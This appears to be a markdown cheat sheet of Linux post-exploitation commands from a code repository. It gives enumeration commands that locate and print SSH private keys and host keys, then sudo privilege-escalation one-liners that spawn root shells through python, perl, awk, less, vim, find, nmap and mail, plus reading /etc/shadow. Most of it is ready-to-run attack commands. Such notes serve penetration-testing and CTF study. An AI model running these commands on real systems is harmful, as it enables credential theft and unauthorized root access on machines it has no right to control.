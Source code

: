# Linux-Exploitation

## Internal Enumeration

#### ID and location
```
id
pwd
```

#### OS / Version / Architecture
```
cat /etc/*-release
uname -i
uname -a
uname -r
cat /proc/version
hostnamectl | grep Kernel
lsb_release -a (Debian based OSs)
```

#### Packaged installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
```

#### Running services and network services
```
ps aux
netstat -antup
```

#### Network
```
ifconfig
ip addr show
arp -a
```

#### Search a file
```
find . -name "*.txt"
```

#### Read SSH key
```
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa

cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
```


## Automated enumeration


## Sudoers - Privesc

##### Python
```
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])
```

##### Perl
```
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’
```

##### CP + Chmod
```
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit
```

##### Awk
```
awk 'BEGIN {system("/bin/bash")}'
```

##### Less
```
Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash
```

##### Vim
```
sudo -u victim /usr/bin/vim
puis on tape (pas dans le fichier mais de la même manière que lorsque l'on souhaite quitter vim):
:!/bin/bash
```

##### Find
```
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;
```

##### Bash
```
sudo -u root /bin/bash
```

##### Nmap
```
 sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh
```

##### Mail
```
sudo mail --exec='!/bin/bash'
```
